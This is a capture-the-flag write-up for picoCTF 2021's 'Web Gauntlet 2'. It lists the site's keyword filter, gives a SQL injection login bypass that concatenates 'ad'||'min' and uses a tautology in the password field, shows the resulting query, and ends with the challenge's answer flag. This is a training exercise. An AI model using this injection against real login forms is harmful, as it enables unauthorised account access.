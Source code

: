 # Web Gauntlet 2

```markdown
Tags: `picoCTF2021` `Web Exploitation`
```

## **Description**

This website looks familiar... Log in as admin Site: [http://mercury.picoctf.net:65261/](http://mercury.picoctf.net:65261/) Filter: [http://mercury.picoctf.net:65261/filter.php](http://mercury.picoctf.net:65261/filter.php)

<figure><img src="../.gitbook/assets/image (28) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: ad'||'min
password: 1' IS NOT '2
```

```sql
SELECT username, password FROM users WHERE username='ad'||'min' AND password='1' IS NOT '2' 
```

## Flag

<figure><img src="../.gitbook/assets/image (29) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (30) (1) (1).png" alt=""><figcaption><p><code>picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
